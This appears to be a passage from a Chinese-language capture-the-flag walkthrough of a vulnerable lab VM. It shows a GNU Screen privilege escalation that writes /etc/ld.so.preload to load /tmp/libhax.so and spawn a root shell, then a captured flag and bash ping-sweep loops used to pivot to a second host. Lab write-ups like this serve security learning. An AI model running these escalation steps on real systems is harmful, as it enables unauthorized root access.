 继续...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukql7LRWqHnKgkicQJDCmMNKibrOaVJK14xTAeCY7MdIERBRm7X16ibg8IpA/640?wx_fmt=png)

这些命令是在 41154 编码中会教... 然后继续

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqgOPMicQJxPzwFFvJmJ9VeVKBibdXicNSg2x0cDiaLRWJ3den9GEmcuLFOQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqSU1Yf6xK33s0SOia22bbt8bCq5PPTBafOoj4qkL7jHHKlkygraHib8xg/640?wx_fmt=png)

命令：

```
1）cd /etc
2）umask 000
3）screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
4）screen -ls（这里一定要出现[+] done!才会成功...我都发狂了）
5）/tmp/rootshell
```

受不了了，本来运行 exp 几分钟就好了... 我硬是用了 2 小时，因为两 c 文件我开始是在本地就 gcc 编译的，然后上传编译好的到靶机，哪晓得一直报错！！！，我检查了很多原因，第一次是因为用 gedit 复制黏贴会导致. c 文件被破坏才报错...（浪费 30 分钟）... 第二次是因为本地 gcc 编译后上传到靶机就有问题了...（耽误 40 分钟）... 第三次是直接用 vi 在本地复制黏贴好两个 C 文件后，直接上传到靶机在用 gcc 语言编译，然后才成功的...（这里我差点都怀疑是不是我靶机下错了... 哭了.. 耐心... 加油）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqAWvwwqSVYRssS88zNUtxPOxSiciaAjWe8QzKQp06ZtQp6oVtmW9ctiblw/640?wx_fmt=png)

好了，成功获得 root 权限...

```
flag：5ed185fd75a8d6a7056c96a436c6d8aa
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqHbia1AJPwU1f3ZV1v8U54mHibLjdQV8U50DlvuSFnKEMT5Qr8subL6iaw/640?wx_fmt=png)

上面的意思是：提供了一个 URL:/struts2_2.3.15.1-showcase 但这不适用于本机的 IP，由于服务器是通过 tomcat 运行的，因此必须找出一种无需 nmap（nmap 未安装在服务器上）进行端口扫描的方法，还需要找到另一端使用的 IP 地址...neuromancer 正在其上运行的 IP，目前只能使用简单的 bash 命令了...

四、另一次攻击：Neuromancer

这里重新调整了 VB 虚拟机的网卡，添加了两张网卡...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqxHDbicB3y9cX4ibGEUWnsehiaVXn6yicOYgaVEre3rj9nbFzmLKznw0A7w/640?wx_fmt=png)

没下载画图软件... 简单看看...straylight 作为中间人...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqvakVJfJQxndY5fuDSbuBLoic85JQe8VX3yUwLVDvezkHwYEE0ypHN9g/640?wx_fmt=png)

这边看出 straylight 是双宿主机... 另外一个链接 Neur 的是 192.168.49.3...

发现 IP，这边直接用命令：

```
for ip in $(seq 1 254); do ping -c 1 192.168.56.$ip; done
for i in $(seq 1 255); do ping -c 1 192.168.49.$i; done | grep "bytes from"
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukq6RrNRXa6icg8vq3J7RRUf7uR1s3ouYJaBLiciaHP0Wm9xs2Sr5pHHSf3g/640?wx_fmt=png)
